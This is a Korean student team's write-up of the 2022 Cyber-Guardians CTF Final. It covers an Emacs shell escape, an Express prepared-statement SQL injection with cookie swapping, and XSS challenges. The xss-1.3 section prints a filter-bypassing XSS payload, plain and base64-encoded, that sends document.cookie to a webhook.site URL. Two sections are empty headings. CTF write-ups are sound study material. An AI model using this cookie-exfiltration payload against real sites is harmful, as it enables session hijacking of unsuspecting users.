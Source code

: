 # 2022 Cyber-Guardians CTF Final

## Dreamhack Profile
School: 덕영고등학교

Team: Asseertive

## Solve list
A - Sanity Check Revenge (@suk-6)

D - xss-1.3 (@suk-6)

E - CProxy: Inject (@fixca)

K - Simple Factor (@suk-6)

M - xss-1.5 (@suk-6)

### Sanity Check Revenge
문제 ssh에 접속하면 GNU Emacs 편집기가 나온다.

ESC + !로 Shell Command 입력창을 불러와서 루트 폴더의 flag 파일을 읽는다.

### xss-1.3
xss-1.3은 문제에서 말하고 있듯 xss 문제이다.

`'`, `"`, `=`를 필터링하고 있다.

필터링을 우회하기 위해 Base64 인코딩으로 해결하였다.

```
<svg/onload=location.href=`https://webhook.site/webhook-id?flag=`.concat(document.cookie)>

to base64(URL-safe) + JS Decoding Code

<script>document.write(atob(`PHN2Zy9vbmxvYWQ9bG9jYXRpb24uaHJlZj1gaHR0cHM6Ly93ZWJob29rLnNpdGUvd2ViaG9vay1pZD9mbGFnPWAuY29uY2F0KGRvY3VtZW50LmNvb2tpZSk-`))</script>
```

### CProxy: Inject
#### 1. admin_inject 로 로그인 해보자!
허나 이 작업은 좀 어려웠어요.   

왜냐하면 preparedstatement 기법이어서 "나 ' or 1 = 1 같은 sqli가 먹히기 힘든 구조였어요.   

하지만 preparedstatement 에서도 먹히는 SQLi 가 있다는 것을   

https://core-research-team.github.io/2020-10-01/Expressjs

이 글에서 알게 되었어요.   

즉 pw 안에 다른 object를 넣는 방법을 알게되었고 그 방법은 다음과 같습니다.   

![pwinject](./img/pwinject.png)

이제 여기서 얻은 connect sid를 브라우저로 옮겨주는 작업을 했어요.   

미리 아무계정으로 로그인 해둔 페이지에서 쿠키를 슬쩍 바꿔주면 admin_inject 계정으로 속이기 성공!   

![change_cookie](./img/change_cookie.png)

#### 2. 플래그를 따보자!
플래그의 위치는 response 테이블에 있었어요.   

db.js 파일에서 response 테이블에 있는 데이터를 불러올 수 있는 함수가 있었고, 그 함수는 /api/history 엔드포인트에 있다는것을 알게 되었어요.

![dbjsresponse](./img/dbjsresponse.png)   

그리고 이 함수는 여기있는 엔드포인트에서 실행되었어요.

![history_endpoint](./img/history_endpoint.png)   

이거 실행 시키면 되겠지 하고 실행했더니

![get_faked](./img/get_faked.png)

아이고 맙소사 플래그가 안나오는 함수를 실행 시켰어요.   

하지만 response 테이블을 참조해서 데이터를 불러오는 엔드포인트랑 함수는 하나 더 있었어요.   

![actual_function](./img/actual_function.png)

![actual_endpoint](./img/actual_endpoint.png)

그럼 /api/history/ 뒤에 rid의 값을 입력하면 그 특정 데이터를 전부 불러올 수 있으니 실행했고,   

결과는 다음과 같았어요.   

![success_flag](./img/success_flag.png)

### Simple Factor

### xss-1.5